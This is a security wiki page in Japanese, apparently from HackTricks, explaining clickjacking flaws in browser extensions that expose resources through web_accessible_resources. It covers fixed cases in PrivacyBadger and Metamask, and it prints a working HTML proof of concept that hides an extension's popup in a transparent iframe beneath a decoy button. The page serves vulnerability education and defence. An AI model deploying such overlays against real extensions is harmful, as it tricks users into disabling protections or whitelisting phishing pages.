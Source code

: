 # BrowExt - ClickJacking

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 基本情報

このページでは、ブラウザ拡張機能のClickJacking脆弱性を悪用します。\
ClickJackingが何か分からない場合は、以下を確認してください：

{% content-ref url="../clickjacking.md" %}
[clickjacking.md](../clickjacking.md)
{% endcontent-ref %}

拡張機能には**`manifest.json`**ファイルが含まれており、そのJSONファイルには`web_accessible_resources`フィールドがあります。以下は[Chromeのドキュメント](https://developer.chrome.com/extensions/manifest/web\_accessible\_resources)に記載されている内容です：

> これらのリソースは、URL **`chrome-extension://[PACKAGE ID]/[PATH]`**を介してウェブページで利用可能になり、これは**`extension.getURL method`**を使用して生成できます。許可されたリソースは適切なCORSヘッダーで提供されるため、XHRなどのメカニズムを介して利用可能です。[1](https://blog.lizzie.io/clickjacking-privacy-badger.html#fn.1)

ブラウザ拡張機能の**`web_accessible_resources`**は、単にウェブを介してアクセス可能なだけでなく、拡張機能の固有の権限で動作します。これは、以下のことが可能であることを意味します：

* 拡張機能の状態を変更する
* 追加のリソースを読み込む
* 一定の範囲でブラウザと相互作用する

しかし、この機能はセキュリティリスクをもたらします。**`web_accessible_resources`**内のリソースに重要な機能がある場合、攻撃者はこのリソースを外部ウェブページに埋め込む可能性があります。このページを訪れる無防備なユーザーは、意図せずにこの埋め込まれたリソースをアクティブにするかもしれません。このようなアクティベーションは、拡張機能のリソースの権限と機能に応じて、意図しない結果を引き起こす可能性があります。

## PrivacyBadgerの例

拡張機能PrivacyBadgerでは、`skin/`ディレクトリが以下のように`web_accessible_resources`として宣言されていることに関連する脆弱性が特定されました（元の[ブログ投稿](https://blog.lizzie.io/clickjacking-privacy-badger.html)を確認してください）：
```json
"web_accessible_resources": [
"skin/*",
"icons/*"
]
```
この設定は潜在的なセキュリティ問題を引き起こしました。具体的には、ブラウザのPrivacyBadgerアイコンとのインタラクション時にレンダリングされる`skin/popup.html`ファイルが`iframe`内に埋め込まれる可能性があります。この埋め込みは、ユーザーを欺いて「このウェブサイトのPrivacyBadgerを無効にする」を誤ってクリックさせるために悪用される可能性があります。このような行動は、PrivacyBadgerの保護を無効にし、ユーザーを追跡の増加にさらすことで、ユーザーのプライバシーを侵害します。このエクスプロイトの視覚的デモは、[**https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm**](https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm)で提供されているClickJackingのビデオ例で見ることができます。

この脆弱性に対処するために、簡単な解決策が実施されました：`web_accessible_resources`のリストから`/skin/*`を削除しました。この変更により、`skin/`ディレクトリのコンテンツにウェブアクセス可能なリソースを通じてアクセスまたは操作できないようにすることで、リスクが効果的に軽減されました。

修正は簡単でした：**`web_accessible_resources`から`/skin/*`を削除する**。

### PoC
```html
<!--https://blog.lizzie.io/clickjacking-privacy-badger.html-->

<style>
iframe {
width: 430px;
height: 300px;
opacity: 0.01;
float: top;
position: absolute;
}

#stuff {
float: top;
position: absolute;
}

button {
float: top;
position: absolute;
top: 168px;
left: 100px;
}

</style>

<div id="stuff">
<h1>
Click the button
</h1>
<button id="button">
click me
</button>
</div>

<iframe src="chrome-extension://ablpimhddhnaldgkfbpafchflffallca/skin/popup.html">
</iframe>
```
## Metamaskの例

[**MetamaskにおけるClickJackingに関するブログ記事はこちらにあります**](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9)。この場合、Metamaskは、アクセスに使用されるプロトコルが**`https:`**または**`http:`**であることを確認することで脆弱性を修正しました（例えば**`chrome:`**ではありません）：

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

**Metamask拡張機能で修正された別のClickJacking**は、ユーザーが`“web_accessible_resources”: [“inpage.js”, “phishing.html”]`のためにフィッシングの疑いがあるページで**ホワイトリストに追加するためにクリック**できたことです。そのページはClickjackingに対して脆弱であったため、攻撃者は被害者が気づかずにホワイトリストに追加するためにクリックするように、何か普通のものを表示して悪用することができ、その後フィッシングページに戻ることができました。

## Steam Inventory Helperの例

ブラウザ拡張機能における**XSS**が**ClickJacking**脆弱性とどのように連鎖しているかを確認するには、以下のページをチェックしてください：

{% content-ref url="browext-xss-example.md" %}
[browext-xss-example.md](browext-xss-example.md)
{% endcontent-ref %}

## 参考文献

* [https://blog.lizzie.io/clickjacking-privacy-badger.html](https://blog.lizzie.io/clickjacking-privacy-badger.html)
* [https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出してハッキングのトリックを共有してください。**

</details>
{% endhint %}
